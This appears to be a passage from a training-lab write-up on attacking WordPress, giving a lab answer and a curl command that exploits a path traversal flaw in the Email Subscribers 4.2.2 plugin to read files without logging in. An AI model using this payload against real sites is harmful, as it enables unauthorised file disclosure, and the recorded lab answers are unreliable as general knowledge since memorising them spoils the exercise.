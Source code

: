 ![alt text](screenshots/Hacking_Wordpress/31.PNG)


![alt text](screenshots/Hacking_Wordpress/32.PNG)

**Answer:** `Charlie Wiggins`

#### Q5: Unauthenticated File Download
**Vulnerable Plugin:** Email Subscribers v4.2.2

```bash
curl "http://blog.inlanefreight.local/wp-content/plugins/email-subscribers/download.php?file=../../../../flag.txt"
```

